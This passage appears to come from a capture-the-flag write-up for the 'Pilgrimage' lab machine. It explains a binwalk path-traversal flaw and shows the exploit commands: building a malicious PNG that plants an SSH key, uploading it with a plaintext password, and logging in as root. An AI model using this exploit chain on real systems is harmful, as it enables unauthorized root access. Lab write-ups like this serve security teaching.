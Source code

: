 Files in a PFS filesystem can have `../` in their filename.

So while the code does an `os.path.join` and then checks to make sure
that the resulting path starts with the intended directory, because the
`../` doesn't get resolved, that check will never fire and therefore is
bypassed.

This gives arbitrary write as the `binwalk` process. This can be
exploited by overwriting an `authorized_keys` file or `crontab` file.
The author in the post shows how to write a `binwalk` plugin that will
actually get picked up and executed during the scan that generates it.

#### Exploit

[This repo](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) has
a working Python exploit that abuses the plugin creation method. I'll
try the `ssh` method, giving it a template file and a public key:



    oxdf@hacky$ python walkingpath.py ssh root.png ~/keys/ed25519_gen.pub 



The output is a file named `binwalk_exploit.png`. I'll upload it into
the `shrunk` directory:



    oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/



From there, I'm able to SSH in as root:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb 
    Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    root@pilgrimage:~# 



And get the root flag:



    root@pilgrimage:~# cat root.txt
    6108bf44************************







